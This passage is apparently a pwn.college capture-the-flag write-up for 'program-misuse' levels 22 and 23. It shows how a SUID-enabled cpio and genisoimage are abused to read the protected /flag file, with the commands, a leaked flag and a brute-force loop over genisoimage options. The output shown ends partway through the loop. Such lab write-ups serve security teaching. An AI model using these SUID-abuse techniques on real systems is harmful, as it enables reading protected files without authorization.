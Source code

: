 The `cpio` utility can be copy files between archives.

We can use the `find` command for the `/flag` , pipe it with `cpio` and redirect the output to the `flag.cpio` file.

```
hacker@program-misuse~level22:~$ find /flag | cpio -o > flag.cpio && cat flag.cpio
�q�6��Lf$]9/flagpwn.college{c8TW4WzvJeYLfeelegwkGAs19gj.0FN2EDL4ITM0EzW}
�q
```

&nbsp;

## level 23

> Forces you to understand different archive formats!

```
hacker@program-misuse~level23:/$ /challenge/babysuid_level23 
Welcome to /challenge/babysuid_level23!

This challenge is part of a series of programs that
force you to understand different archive formats.

I just set the SUID bit on /usr/bin/genisoimage.
Try to use it to read the flag!

IMPORTANT: make sure to run me (/challenge/babysuid_level23) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/genisoimage!
```

The `genisoimage` utility creates filesystem images.

In order to retrieve the flag, we have to use the following script:

```
hacker@program-misuse~level23:/$ for option in $(genisoimage --help 2>&1 | grep FILE | awk {'print $1'}); do echo $option; genisoimage $option /flag 2>&1 | grep pwn; done
-abstract
-biblio
-check-session
-copyright
-b

-B
-sunx86-boot
-G
-c
-hide
-hide-list
-hidden
-hidden-list
-hide-joliet
-hide-joliet-list
-i
-log-file
-m
-exclude-list
-M
-o
-path-list
-alpha-boot
-hppa-kernel-32
-hppa-kernel-64
-hppa-bootloader
-hppa-ramdisk
-mips-boot
```